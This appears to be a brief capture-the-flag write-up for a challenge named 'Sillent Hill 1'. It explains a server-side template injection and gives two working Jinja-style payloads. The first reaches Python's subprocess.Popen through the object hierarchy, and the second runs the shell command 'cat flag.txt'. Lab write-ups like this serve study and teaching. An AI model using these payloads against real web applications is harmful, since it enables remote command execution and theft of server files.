


# Sillent Hill 1





This challenge is a basic SSTI (Server Side Template Injection). By injecting a simple payload, it's possible to retreive subprocess library.


```py
{{ ''.__class__.__mro__[1].__subclasses__()[395]}}
```

It's possible to get the flag by running a simple command.

```py
{{ ''.__class__.__mro__[1].__subclasses__()[395]("cat flag.txt", shell=True, stdout=-1).communicate()}}
```


